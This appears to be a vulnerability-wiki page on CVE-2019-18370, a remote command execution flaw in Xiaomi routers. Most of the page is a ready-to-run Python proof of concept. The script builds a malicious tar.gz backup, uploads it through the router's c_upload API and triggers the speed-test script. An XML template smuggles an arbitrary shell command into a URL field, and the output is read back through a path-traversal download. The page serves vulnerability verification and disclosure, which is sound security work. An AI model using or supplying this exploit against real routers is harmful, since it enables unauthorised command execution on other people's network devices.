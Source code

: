# Xiaomi router c_upload remote command execution vulnerability CVE-2019-18370

## Vulnerability Description

Xiaomi router has an interface, and the backup file is in tar.gz format. After uploading, tar zxf is decompressed. Therefore, constructing a backup file can control the file content of the decompressed directory, combine it with the sh script that tests upload download speed function to read the test url list file, and directly splice the url part to execute.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Xiaomi router</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657436243071-4b71b87e-5cc9-4a15-8395-f50c27bda619-20220710155157295.png)

Verify POC

```php
import os
import tarfile
import requests

# proxies = {"http":"https://127.0.0.1:8080"}
proxies = {}

## get stok
stok = input("stok: ")

## make config file
command = input("command: ")
speed_test_filename = "speedtest_urls.xml"
with open("template.xml","rt") as f:
    template = f.read()
data = template.format(command=command)
# print(data)
with open("speedtest_urls.xml",'wt') as f:
    f.write(data)

with tarfile.open("payload.tar.gz", "w:gz") as tar:
    # tar.add("cfg_backup.des")
    # tar.add("cfg_backup.mbu")
    tar.add("speedtest_urls.xml")

## upload config file
print("start uploading config file ...")
r1 = requests.post("https://xxx.xxx.xxx.xxx/cgi-bin/luci/;stok={}/api/misystem/c_upload".format(stok), files={"image":open("payload.tar.gz",'rb')}, proxies=proxies)
# print(r1.text)

## exec download speed test, exec command
print("start exec command...")
r2 = requests.get("https://xxx.xxx.xxx.xxx/cgi-bin/luci/;stok={}/api/xqnetdetect/netspeed".format(stok), proxies=proxies)
# print(r2.text)

## read result file
r3 = requests.get("https://xxx.xxx.xxx.xxx/api-third-party/download/extdisks../tmp/1.txt", proxies=proxies)
if r3.status_code == 200:
    print("success, vul")
    print(r3.text)
```

template.xml file

```php
<?xml version="1.0"?>
<root>
    <class type="1">
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="https://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
    </class>
    <class type="2">
        <item url="https://192.168.31.1 -q -O /dev/null;{command}>/tmp/1.txt;"/>
    </class>
    <class type="3">
        <item uploadurl="https://www.taobao.com/"/>
        <item uploadurl="https://www.so.com/"/>
        <item uploadurl="https://www.qq.com/"/>
        <item uploadurl="https://www.sohu.com/"/>
        <item uploadurl="https://www.tudou.com/"/>
        <item uploadurl="https://www.360doc.com/"/>
        <item uploadurl="https://www.kankan.com/"/>
        <item uploadurl="https://www.speedtest.cn/"/>
    </class>
</root>
```

The interface is a background permission interface, and you need to obtain stok through any file reading vulnerability.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657439236976-27a33bc3-42ff-412f-9e66-4c57198d42fe.png)